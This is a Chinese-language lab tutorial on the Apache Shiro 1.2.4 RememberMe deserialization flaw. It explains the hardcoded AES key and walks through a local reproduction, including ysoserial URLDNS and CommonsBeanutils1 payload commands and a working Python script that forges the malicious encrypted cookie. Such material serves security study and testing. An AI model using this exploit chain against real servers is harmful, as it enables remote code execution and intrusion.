# Shiro 550反序列化漏洞基础认识

## Shiro认识

shiro是java中一个框架，用于管理用户的身份验证，授权，会话及加密。

历史漏洞：https://avd.aliyun.com/search?q=Shiro

漏洞触发：CookieRememberMeManager

黑盒特征：数据包cookie有没有rememberme

## 反序列化漏洞原理

### 一、Shiro “记住我”（RememberMe）功能的实现逻辑

Shiro 的 “记住我” 功能用于在用户登录后持久化身份信息，避免重复登录，其正常流程如下：

1. **用户登录并勾选 “记住我”**：服务器生成包含用户身份信息的 **Java 对象**（如用户名、角色等）；
2. **序列化对象**：将 Java 对象转换为字节流（通过 Java 原生序列化机制，使用 `ObjectOutputStream`）；
3. **加密处理**：用 **AES 算法** 对序列化字节流进行加密（默认使用 CBC 模式，PKCS5Padding 填充）；
4. **编码传输**：将加密后的字节流进行 **Base64 编码**，作为 `rememberMe` Cookie 的值返回给客户端；
5. **后续访问验证**：客户端下次访问时，服务器读取 `rememberMe` Cookie，按相反流程处理（Base64 解码 → AES 解密 → 反序列化 → 恢复用户身份）。

### 二、漏洞根源：硬编码密钥与反序列化无校验

Shiro 反序列化漏洞的产生依赖两个致命设计缺陷，缺一不可：

#### 1. AES 加密密钥硬编码（可被攻击者获取）

为简化使用，Shiro 框架在 **1.2.4 及以下版本** 中内置了一组 **硬编码的 AES 密钥**（如 `kPH+bIxk5D2deZiIxcaaaA==`）。这些密钥可通过以下方式获取：

- 反编译 Shiro 源码（`shiro-core` 模块的 `AbstractRememberMeManager` 类）；
- 搜索公开的 Shiro 密钥字典（开发者未修改默认密钥时直接复用）。

攻击者获取密钥后，可任意伪造 `rememberMe` Cookie 的内容。

#### 2. 反序列化过程未做安全校验

服务器在解析 `rememberMe` Cookie 时，对解密后的字节流直接执行 **Java 反序列化**（使用 `ObjectInputStream`），且：

- 不校验序列化对象的 **来源**（是否为服务器生成）；
- 不限制可反序列化的 **类范围**（允许任何类被恢复）；
- 不检测序列化数据的 **完整性**（是否被篡改）。

而 Java 反序列化的特性是：**恢复对象时会自动执行对象中的 `readObject()` 方法**（以及其他特殊方法，如 `readResolve()`）。攻击者可构造包含恶意代码的序列化对象，使 `readObject()` 执行任意命令。

## 靶场搭建：

[靶场下载](https://gitee.com/zifeiyu-sec/source/raw/master/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/shiro-shiro-root-1.2.4.zip)

shiro-shiro-root-1.2.4\samples\目录下的web文件，用IDEA打开，配置Tomcat，然后配置jdk8版本



修改一下pom.xml文件中

```xml
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>jstl</artifactId>
    <version>1.2</version>    //此处添加一个版本
    <scope>runtime</scope>
</dependency>
```

然后启动就可以访问

## 漏洞复现

首先登录尝试，用BP抓包分析



可以看到回显的数据包中rememberMe的值，去顶shiro框架。

此时可以尝试使用shiro框架利用工具直接探测



## 代码分析

### Cookie生成分析

成功登录：rememberMeSuccessfulLogin断点（动态调试）（这个类是shiro自带的，方法名固定）

从此处断点调试





然后登录调试代码，在web页面访问并且输入用户名和密码，勾选记住我




调试到下面图片这一步可以看到writeObject()，此处对我们传入的值进行了序列化，（也可以直接搜索writeObject断点到此处）



步入调试分析

然后到下面这一步encrypt()，发生了加密，步入查看加密手法






key的值：断点调试可以看到，也可以全局搜索`DEFAULT_CIPHER_KEY_BYTES = `,可以看到key的值kPH+bIxk5D2deZiIxcaaaA== 

接着调试，可以看到做了一个base64编码



到下面这一步可以看到cookie基本生成

```txt
Y9ks9mlJDPek8UQX7yKgsuPfmjt6BiyB/o3Q8T7qv/NBQe7M+3mXpW1rElsCCZAD3nOcTpUFpMJNOUZgsfUz6HGpOVfjvcBVa1Rbl6fdoehtNUY14j++5JWc+2orSC2kiZzTGCk3dPXzBOxvJ0D+bCBic4oLk759+oGOHRSLJs3SDjFzx0WHC51gidAluhkc60su4+0orGABhwu5T5yL/I7nRcD3bh7gfwfufkjO86EEET3fhBxjbH1m0WZy9XFviKbQkznXuk1lJgHoonXO64//IXAKVe5ipqr1m99KfAh+HJ+9QXIRp6lp8E1/jQ5/Wk1dTYAU2xJAXCEB3BQGAPRcBBwxG/v48/1jLPayFE7cXHNhBAPW7F/SxPxI6YTfq/2zesnl9rzteRLUE1jR5Kay7BkM4XrUJ53euObse2uxP5fqyMWdKRAw6Sj6wK7FBKm4/SKuKmfXLnw65Dz7gzPPTaMUhW/ffVF8kx68sH7X7mqroRdNDnhvjqPq6x1t
```



查看页面数据包的cookie。



成功分析后端代码cookie的生成过程。

然后当用户再次发起请求的时候，服务端就会

- 先base64解码
- AES解密
- 反序列化

### 利用DNS探测步骤

先从dnslog获取一个域名:http://dnslog.cn/



使用`ysoserial`工具生成一个urldns链

```java.exe -jar ysoserial-all.jar URLDNS "http://0s57bs.dnslog.cn" > urldns.txt```

然后使用脚本模拟shiro生成cookie的过程

```python
from Crypto.Cipher import AES
import uuid
import base64


def convert_bin(file):
    with open(file, 'rb') as f:
        return f.read()


def AES_enc(data):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data))).decode()
    return ciphertext


if __name__ == "__main__":
    data = convert_bin("urldns.txt")
    print(AES_enc(data))
```

将生成的urldns.txt文件与这个脚本放在同一个目录.然后运行脚本,就会得到一串base64编码的字符串



然后再登录成功的基础上访问http://10.56.93.60:8080/samples_web_war/抓包



然后就可以从dnslog平台看到访问记录

### 命令执行

如果要执行命令,可以类似刚才urldns探测一样

> java.exe -jar ysoserial-all.jar  CommonsBeanutils1 "calc" > calc.txt

然后放到py脚本中,修改其中文件名.运行,上传,或者使用上面介绍的shiro扫描漏洞的工具,或者使用

java-chains工具

除了shiro专用工具,还可以使用之前介绍过的java-chains工具



然后把这个值复制到数据包中,同样有效果

还可以尝试其他的链,却决于项目中存在的依赖.urldns链是jdk8中自带的一条链,无需任何依赖.

## shiro反序列化与Fastjson反序列化区别

### 涉及组件

- **Shiro 反序列化**：Shiro 是一个强大且易用的 Java 安全框架，用于处理身份验证、授权、加密和会话管理。Shiro 反序列化漏洞主要出现在 Shiro 框架处理用户会话数据的过程中。
- **Fastjson 反序列化**：Fastjson 是阿里巴巴开发的一款高性能的 JSON 处理库，用于在 Java 程序中进行 JSON 数据的解析和生成。它被广泛应用于各种 Java Web 应用，用于前后端数据交互时的序列化和反序列化操作。

### 漏洞触发原理

- **Shiro 反序列化**：Shiro 框架默认使用 AES 加密算法对 RememberMe cookie 进行加密，在处理 RememberMe 功能时，若加密密钥泄露或者使用了默认密钥，攻击者可以伪造恶意的 RememberMe cookie。当服务器对该 cookie 进行反序列化操作时，就会触发反序列化漏洞，执行恶意代码。
- **Fastjson 反序列化**：Fastjson 在将 JSON 字符串反序列化为 Java 对象时，会根据 JSON 中的字段信息调用对应的 Java 类和方法。如果在反序列化过程中，没有对输入的 JSON 字符串进行严格的安全校验，当遇到特定的 JSON 结构（比如包含有特殊类的引用，且该类存在可利用的方法）时，就会触发反序列化漏洞，进而执行恶意代码。

### 漏洞利用难度

- **Shiro 反序列化**：利用 Shiro 反序列化漏洞，通常需要获取到加密密钥，虽然存在默认密钥使得部分场景下利用难度降低，但如果密钥经过修改且未泄露，攻击者需要先通过其他手段获取密钥才能成功利用，整体利用流程相对复杂。
